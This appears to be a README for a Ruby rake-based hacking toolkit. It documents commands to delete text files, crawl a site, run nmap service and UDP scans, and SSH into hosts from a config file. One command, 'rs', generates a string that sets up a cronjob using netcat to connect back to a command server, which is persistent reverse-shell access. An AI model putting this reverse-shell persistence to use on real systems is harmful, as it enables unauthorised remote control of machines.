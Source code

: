 ### clean
```ruby
ruby rakefile.rb --clean
```
This command will remove any text files that are in the current directory. 

```ruby
rake clean
```


### Reverse Shell
```ruby
ruby rakefile.rb --rs 127.0.0.1 2222
```
This command needs an IP and a port. This command will output a string that when ran will create a cronjob on the system that will 
use netcat to connect to the command server. 

```ruby
rake rs["127.0.0.1","2222"]
```
`127.0.0.1` is the IP and `2222` is the port. 


### Crawl
```ruby
ruby rakefile.rb --crawl https://google.com/
```

The crawl command will crawl every URL on the site & create a txt file that contains all the links.

```ruby
rake crawl["https://google.com"]
```


### Nmap service scan

```ruby
ruby rakefile.rb --sv 192.168.1.110
```
It will use Nmap to perform a service scan (-sV) on the given IP. Nmap must be installed on the system.
```ruby
rake sv["192.168.1.110"]
```

### Nmap UDP scan
```ruby
sudo rake udp["192.168.2.220"]
```
This will perform a UDP scan on the target and create a text file with the details. This command must be ran with sudo. Again, nmap has to be installed on the computer.

```ruby
sudo ruby rakefile.rb --sv 192.168.1.220
```

### Example of SSH config file
```json
{"cowrie": {
    "ip": "127.0.0.1",
    "uname": "root",
    "pass": "",
    "port": 22
},
"xmr": {
    "ip": "127.0.0.1",
    "uname": "root",
    "pass": "",
    "keys": "/home/root/.ssh/xmr.pem"
}}
```
The program uses the config.json file so that it can SSH into the remote hosts. 


### Installing gems
```ruby
gem install spidr
gem install net-ssh
gem install net-scp
gem install rake
```